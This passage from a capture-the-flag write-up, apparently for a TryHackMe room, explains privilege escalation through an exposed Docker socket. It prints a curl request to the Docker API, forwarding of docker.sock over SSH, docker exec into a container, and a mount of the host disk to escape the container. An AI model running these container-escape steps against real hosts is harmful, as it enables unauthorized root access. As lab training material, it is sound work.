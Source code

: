     ```

6. Now we need to start the container we just ran above which will give us the first root flag:

    ```bash

   curl -i -s -X POST \
   -H 'Content-Type: application/json' \
   --data-binary '{"Detach": false,"Tty": false}' \ http://localhost:8080/exec/bfa14df9e363d42620d44d3234314c8997569be6555097ca59a4930e11053719/start

    ```

    - After running this command we get the first root.txt flag: THM{REDACTED}


##### SSH forwarding over the docker.sock

Method 2 skips and simplifies the entire process of privilege escalation and container escape. If we use 
this technique we bypass the need for the above curl commands. I included this to show the process I went
through and also to show how dangerous it is to expose the docker.sock daemon. Using curl commands we were 
able to read files that were restricted by access permissions and reinforces the need to understand the 
various ways privilege escalation can be accomplished by attackers.


##### Commands to forward the docker.sock daemon over our local host to interact with the container using docker commands

1. Forwarded the /var/run/docker.sock over ssh to localhost and ran the below docker command to gain root. Here is the syntax for the ssh command:
    ```  ssh -nNT -L localhost:2345:/var/run/docker.sock uzJk6Ry98d8C@10.10.10.127 -p 2222  ```

2. You then need to export the host to another terminal:
    ```  export DOCKER_HOST=tcp://127.0.0.1:2345  ```

3. Once you have access to the docker daemon via terminal on your machine run this command: ```  docker exec -it 7b884dffa6ae bash  ```

4. Once you have root on container run the following commands to break out of the container by mounting the host systems file structure:
    - ```  mkdir -p /mnt/hola  ```
    
    - ```  mount /dev/xvda1 /mnt/hola  ```

5. Host file system is now mounted, cd to root and cat open the root.txt.

6.  Important links: [dejandayoff](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) && [blog.natem135](https://blog.natem135.com/posts/thm-sweet-tooth-inc/)
